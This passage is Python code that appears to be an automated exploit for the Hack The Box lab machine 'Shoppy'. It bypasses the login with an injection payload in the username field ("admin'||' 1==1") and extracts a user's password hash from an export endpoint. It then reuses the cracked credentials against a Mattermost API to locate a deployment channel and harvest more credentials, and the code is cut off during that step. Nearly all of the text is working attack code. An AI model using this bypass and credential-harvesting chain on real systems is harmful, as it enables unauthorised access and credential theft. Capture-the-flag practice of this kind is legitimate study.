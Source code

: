 ```python
	josh_password_hash = ''

	try:
		session = requests.Session()
		
		log.info('Bypass login')

		headers = {'Content-Type':'application/json'}
		post_data = {
			"username" : "admin'||' 1==1",
			"password" : ""
		}

		_ = make_request(session=session, method='post', target_url='http://shoppy.htb/login', headers=headers, json_data=post_data)
		cookies = session.cookies.get_dict()
		
		log.info('Extract password')

		_ = make_request(session=session, method='get', target_url='http://shoppy.htb/admin/search-users?username=josh', cookies=cookies)
		response = make_request(session=session, method='get', target_url='http://shoppy.htb/exports/export-search.json', cookies=cookies)
		josh_password_hash = json.loads(response.text)[0]['password']
				
		session.close()
	except Exception as error:
		print('[x] Error: %s' % error)

	return josh_password_hash

# login mattermost.shoppy.htb (Josh credentials) and return credentials from user Jaeger
def get_jaeger_credentials(josh_password_text):
	deploy_machine_username = ''
	deploy_machine_password = ''

	try:
		session = requests.Session()
		
		log.info('Persistent login to mattermost API')

		headers = {"Content-Type" : "application/json"}
		post_data = {
			"login_id" : "josh",
			"password" : "{}".format(josh_password_text)
		}

		response = make_request(session=session, method='post', target_url='http://mattermost.shoppy.htb/api/v4/users/login', headers=headers, json_data=post_data)
		user_mfa_token = response.headers['Token']
		user_id = json.loads(response.text)['id']

		headers = {"Authorization" : "Bearer {}".format(user_mfa_token)}

		response = make_request(session=session, method='get', target_url=f'http://mattermost.shoppy.htb/api/v4/users/{user_id}/teams', headers=headers)
		user_teams_id = json.loads(response.text)[0]['id']

		response = make_request(session=session, method='get', target_url=f'http://mattermost.shoppy.htb/api/v4/teams/{user_teams_id}/channels/name/deploy-machine', headers=headers)
		deploy_machine_channel_id = json.loads(response.text)['id']
		
```